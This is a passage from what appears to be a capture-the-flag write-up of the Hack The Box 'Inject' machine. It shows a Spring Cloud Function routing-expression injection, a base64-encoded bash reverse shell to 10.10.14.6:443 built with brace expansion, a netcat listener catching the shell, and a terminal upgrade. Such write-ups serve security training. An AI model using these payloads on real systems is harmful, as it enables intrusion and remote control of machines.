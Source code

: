     
    
    POST /functionRouter HTTP/1.1
    spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash /tmp/0xdf.sh")
    Host: 10.10.11.204:8080
    ...[snip]...
    

At `nc`, there’s a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.204 60606
    bash: cannot set terminal process group (820): Inappropriate ioctl for device
    bash: no job control in this shell
    frank@inject:/$ 
    

#### Success by Brace Expansion

[Brace expansion](https://www.gnu.org/software/bash/manual/html_node/Brace-
Expansion.html) is something I use daily in `bash`. For example, when I need
to move `file_20230313-2046.png` to `file_20230313-2046-orig.png`, I’ll do:

    
    
    $ mv file_20230313-2046{,-orig}.png
    

When I submit a payload like this:

    
    
    T(java.lang.Runtime).getRuntime().exec("bash -c {echo,IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK}|{base64,-d}|bash")
    

Bash expands that to:

    
    
    T(java.lang.Runtime).getRuntime().exec("bash -c echo IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK|base64 -d|bash")
    

Whatever was causing it to fail in the Java layer doesn’t fail any more, and
now it works!

#### Shell Upgrade

I’ll [upgrade my shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q) using the
`script` / `stty` technique:

    
    
    frank@inject:/$ script /dev/null -c bash\
    Script started, file is /dev/null 
    frank@inject:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    frank@inject:/$ 
    
